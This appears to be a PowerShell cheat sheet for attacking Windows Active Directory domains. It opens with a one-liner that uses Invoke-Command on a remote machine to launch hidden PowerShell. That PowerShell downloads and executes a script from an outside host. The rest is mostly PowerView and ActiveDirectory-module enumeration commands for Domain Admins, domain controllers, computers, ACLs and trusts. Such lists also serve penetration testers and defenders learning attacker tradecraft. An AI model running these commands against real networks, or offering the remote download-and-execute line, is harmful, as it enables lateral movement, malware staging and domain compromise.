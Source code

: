 ```Powershell
Invoke-Command -computername PC047147 -scriptblock {powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://rn-dk.com:80/rn'))"}
```

List all groups:
```Powershell
Get-NetGroup *admin*
Get-ADGroup -Filter {Name -like “*admin*”} | select name
```

Get all members of the Domain Admins group:
```Powershell
Get-NetGroupMember -GroupName “Domain Admins”
Get-ADGroupMember -Identity “Domain Admins” -Recursive
```

Get the group membership for a user:
```Powershell
Get-NetGroup -UserName “username”
Get-ADPrincipalGroupMembership -Identity <username>
```

Get current domain information:
```Powershell
Get-NetDomain 
Get-NetDomain -Domain <domain>
```
	
Get the current domain SID:
```Powershell
Get-DomainSID
```    
Using ActiveDirectory module:
```Powershell
Get-ADDomain
Get-ADDomain -Identity <domain>
(Get-ADDomain).DomainSID.value    
``` 
 Get domain controllers for a domain:
```Powershell    
Get-NetDomainController 
Get-NetDomainController -Domain <domain>
    
Get-ADDomainController
Get-ADDomainController -Discover -DomainName <domain>
 ```
Get all computers of the domain:
```Powershell    
Get-NetComputer
Get-NetComputer -FullData
    
Get-ADComputer -Filter * | select name
Get-ADComputer -Filter * -Properties * 
```
Get list with interesting ACL settings:
```Powershell    
Invoke-ACLScanner -ResolveGUIDs
``` 
Find out which domain I trust:
```Shell    
shell net view /DOMAIN
```
Return all domains for the current (or specified) forest:
```Powershell    
Get-ForestDomain
```    
Return domain trusts for the current domain using built in .LDAP method:
```Powershell    
Get-DomainTrust
```    